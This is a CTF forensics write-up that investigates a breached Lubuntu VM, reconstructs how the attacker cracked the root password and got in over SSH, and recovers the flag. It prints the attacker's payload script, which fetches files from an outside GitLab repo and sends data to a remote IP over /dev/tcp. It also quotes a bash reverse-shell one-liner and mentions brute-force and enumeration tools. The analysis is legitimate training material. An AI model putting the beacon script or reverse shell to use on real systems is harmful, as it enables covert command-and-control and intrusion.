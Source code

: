 # Challenge Name: DFIR

![date](https://img.shields.io/badge/date-24.04.2021-brightgreen.svg)  
![solved in time of CTF](https://img.shields.io/badge/solved-in%20time%20of%20CTF-brightgreen.svg)   
![forensics category](https://img.shields.io/badge/category-Forensics-blueviolet.svg)   
![value](https://img.shields.io/badge/value-400-blue.svg)  


## Description

Our Lubuntu server has been breached! We recieved an alert about it communicating with malicious servers and we saw a SIGNIFICANT increase in CPU usage. We SSHed in and saw that changes had been made to the / directory. We need to know how this attacker got in (so we can keep him out in the future) and what he was using our server for...

uname: "victem" (ya, we kinda jinxed ourselves with that name) pw: "correct-horse-battery-staple"

Download: https://drive.google.com/file/d/16sV8pXSrG22KL4zJ9VrpZTcZAs_N9XYw/view 

## Detailed solution  

Start by importing the virtualbox machine and run it 

![image](https://user-images.githubusercontent.com/72421091/116092049-fde5d280-a694-11eb-93e7-3d1c3011ebac.png)

Let's SSH to the machine using the credentials in description ```victem / correct-horse-battery-staple``` get more confortable 

Our machine is a ```Lubuntu 18.04 LTS``` and the linux kernel version is ```4.15.0-20``` 

![image](https://user-images.githubusercontent.com/72421091/116094116-ca0bac80-a696-11eb-985f-8ee3b03d722e.png)

The description mention that that changes had been made to the / directory so let's go check it 

![image](https://user-images.githubusercontent.com/72421091/116096118-89149780-a698-11eb-9b94-39c013a822ee.png)

The file ```cluster-crack.pot``` is suspicious let's read it  

```
cat cluster-crack.pot

$6$fZ/iAgR.$FHl9m/ibTVBQ3OQ645IiLtrcxSsxdt8pTQHh7knfQ2GhD7Pbu0Dv0evXaGnnMVjV7xe5KlRprL5hWEjE6/Ruj0:toor
```

We can see a decrypted linux hash password which is ```toor``` which is a commun default root password 

The POT file is where john stores passwords that it has already cracked for display with the "--show" command  

So the attacker used john the decrypt the users hash password 

Checking the passwd file we can see the users root and victem 

![image](https://user-images.githubusercontent.com/72421091/116098680-caa64200-a69a-11eb-835c-9be03c5a1c45.png)

Let's switch to ```root``` with the password ```toor``` and check the bash history 

![image](https://user-images.githubusercontent.com/72421091/116099769-d2b2b180-a69b-11eb-9ff3-ac36623743b5.png)  

NB : the line 6 is wrong it's sould be ```wget https://gitlab.com/thehacker1/payload/-/blob/master/.payload.sh```  

![image](https://user-images.githubusercontent.com/72421091/116101630-82d4ea00-a69d-11eb-9d94-b4d6f74c5c25.png)

We can see two attacks, running a payload.sh and cracking the shadow file hashes using john and the wordlist rockyou.txt

The files has been downloaded from a gitlab repository https://gitlab.com/thehacker1/payload/-/tree/master 

![image](https://user-images.githubusercontent.com/72421091/116103519-312d5f00-a69f-11eb-997f-9c19f201bccd.png)

**.payload.sh file **

```bash
#!/bin/bash

W=$((15*60))
K=120

while true
do
	echo "sleeping for $W seconds"
	sleep $W
	rm .encrypted_csv.data
	wget https://gitlab.com/thehacker1/payload/-/raw/master/.encrypted_csv.data
	echo "downloaded file"
	F="./.encrypted_csv.data"
	hexdump -v -e '/1 "%u\n"' $F | while read B; do
		E=$((K^B))
		C=$(printf \\$(printf '%03o' $E))
		echo -n $C >> encrypted.csv
	done
	echo "decrypted newest command"
	S=$(cat encrypted.csv)
	rm encrypted.csv
	S="${S::-1}"
	D=,
	S=$S$D
	array=();
	while [[ $S ]]; do
		array+=( "${S%%"$D"*}" );
		S=${S#*"$D"};
	done;
	declare -a array
	M=${array[0]}
	I=${array[1]}
	P=${array[2]}
	M=${M##WPI}
	echo "routing message to $I:$P"
	echo "$M" > /dev/tcp/$I/$P
done
```

We can see some steps :

- Download the .encrypted_csv.data file from the gitlab repository using wget
- Decrypting the file : convert .encrypted_csv.data to decimal values, xor using K=120, converto to octal values and print the ascii charactere
- encrypted.csv : WPI{open-ports-will-be-abused},185.22.155.51,80r
- Save encrypted.csv as array : M is our flag, I the ip adresse and P the port 
- echo "$M" > /dev/tcp/$I/$P : similar to a bash reverse shell ```bash -i >& /dev/tcp/10.0.0.1/8080 0>&1```

A bash script for decryption to get the flag 

```bash
#!/bin/bash

wget https://gitlab.com/thehacker1/payload/-/raw/master/.encrypted_csv.data #Download file from the gitlab repository
echo "[+] Downloaded file"

F="./.encrypted_csv.data"
K=120

hexdump -v -e '/1 "%u\n"' $F | while read B; do   # Convert .encrypted_csv.data values to decimal one byte for each line and start a loop
        E=$((K^B))                                # xor K=120 and the decimal value from .encrypted_csv.data (1 byte line)
        C=$(printf \\$(printf '%03o' $E))         # Convert the xor output to octal and print the ascii character
        echo -n $C >> encrypted.csv
done

echo "[+] Decrypted"

S=$(cat encrypted.csv) # S --> WPI{open-ports-will-be-abused},185.22.155.51,80r
flag="${S:0:30}"
echo "[+] Flag : $flag"
```
![image](https://user-images.githubusercontent.com/72421091/116130198-79a64600-a6ba-11eb-85e8-f0364d87e288.png)


## Flag

```
WPI{open-ports-will-be-abused}
```

## How the attacker get in  

Starting by performing ports scan using nmap 

![image](https://user-images.githubusercontent.com/72421091/116132345-f89c7e00-a6bc-11eb-9a4b-6f2163f959e9.png)

We can see the port 22/TCP runinng the OpenSSH 7.6p1 which is vulnerable to a username enumeration attack https://nvd.nist.gov/vuln/detail/CVE-2018-15473  

I tried user enumeration using this exploit https://www.exploit-db.com/exploits/45233 and the metasploit module auxiliary/scanner/ssh/ssh_enumusers but no success

I tried to bruteforce ssh credentials using hydra with a default credentials list https://github.com/danielmiessler/SecLists/blob/master/Passwords/Default-Credentials/ssh-betterdefaultpasslist.txt 

![image](https://user-images.githubusercontent.com/72421091/116150292-b5e5a080-a6d2-11eb-9926-f09203bdc253.png)

So we can access the server using SSH as root 

### Fix

- Disable direct root ssh login
- Upgrade OpenSSH to latest version

Some best practices explained by liveoverflow  

https://www.youtube.com/watch?v=fKuqYQdqRIs







